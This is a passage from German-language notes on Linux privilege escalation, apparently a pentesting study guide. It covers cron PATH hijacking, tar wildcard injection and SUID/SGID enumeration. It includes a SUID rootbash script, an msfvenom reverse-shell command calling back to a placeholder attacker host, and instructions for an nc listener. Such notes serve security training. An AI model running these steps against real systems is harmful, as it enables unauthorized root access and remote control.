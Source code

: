 Auf Kali nun einen nc listener auf gewähltem Port starten und warten, bis Verbindung als root aufgebaut wird.

#### PATH Environment Variable

In crontab Files ist eine PATH env Variable gesetzt, welche per Default auf /usr/bin:/bin gesetzt ist (diese kann vllt. überschrieben werden). Wenn ein Cronjob/Script **keinen** absoluten Pfad nutzt und eines der PATH Verzeichnisse schreibbar durch den aktuellen Benutzer ist, könnte dort ein Script (mit dem selben Namen wie im crontab) erstellt werden, welches ausgeführt wird. 

![image-20200726133518644](https://user-images.githubusercontent.com/33549572/88826621-3ec5bf00-d1c9-11ea-890e-28b9bedbf767.png)

Nun kann z.B. eine rootbash erstellt werden:

```bash
#Inhalt von overwrite.sh

#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

#Anschließend rootbash ausführbar machen (chmod +x overwrite.sh)
```

#### Wildcards

Befehle, welche Wildcards nutzen, können ausgetrickst werden, indem man Dateien erstellt und diese als commandline arguments benennt.

![image-20200726134346644](https://user-images.githubusercontent.com/33549572/88826653-49805400-d1c9-11ea-9beb-73c7eb783b7b.png)

Eine Suche auf https://gtfobins.github.io/ nach tar bietet eine Sequenz an, um eine Root Shell zu erzeugen:

![image-20200726134500682](https://user-images.githubusercontent.com/33549572/88826691-5604ac80-d1c9-11ea-9bdb-3eda7d793d4d.png)

Ins Verzeichnis nun eine Reverse Shell legen (mit msfvenom erzeugt):

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=KALI-IP LPORT=KALI-Port -f elf -o shell.elf
```

Diese wird ins /home/user Verzeichnis kopiert. Anschließend Dateien erzeugen, welche tar als Argumente nutzen wird:

![image-20200726134759086](https://user-images.githubusercontent.com/33549572/88826757-67e64f80-d1c9-11ea-9ab9-53fb9120c96d.png)

## SUID/SGID Files

SUID wird als File Owner, SGID als Group Owner ausgeführt. Wenn die Datei root gehört, könnte PrivEsc möglich sein. Mit folgendem Befehl werden Dateien angezeigt, welche entweder das SUID oder SGID Bit gesetzt haben:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
